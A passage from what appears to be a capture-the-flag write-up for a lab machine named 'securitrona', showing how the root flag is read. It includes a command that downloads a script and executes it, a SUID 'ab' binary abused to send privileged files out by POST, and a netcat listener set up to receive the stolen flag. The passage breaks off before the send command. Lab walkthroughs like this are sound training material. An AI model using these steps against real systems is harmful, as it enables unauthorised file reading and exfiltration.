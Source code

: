 We find the user flag with a different name, we could never get it from the LLM.

![User flag](../../assets/images/securitrona/20250628_222819_image.png)

## Access to the root.txt flag

I look if there is any SUID binary, sudo or with capabilities that is indicated in [GTFOBins](https://gtfobins.github.io/) allows privilege escalation with my tool [GTFOLenam](https://github.com/Len4m/gtfolenam).

In a folder with write permissions, we execute.

```bash
wget https://raw.githubusercontent.com/Len4m/gtfolenam/main/gtfolenam.sh && chmod +x gtfolenam.sh && ./gtfolenam.sh
```

The script finds a `ab` binary with the SUID bit activated and has found the GTFOBins reference.

![GTFOLenam](../../assets/images/securitrona/20250628_223636_image.png)

As we can see in GTFOBins, we can read files in a privileged way by sending them via POST.

If we try to escalate privileges we will not succeed, or I have not prepared any intentional way to achieve it. We'll see if someone manages it, but we can read the root flag.

On our attacking machine, we listen with netcat.

```bash
nc -lvnp 8000
```

and on the victim machine with the securitrona user, we send the root flag to our attacking machine.
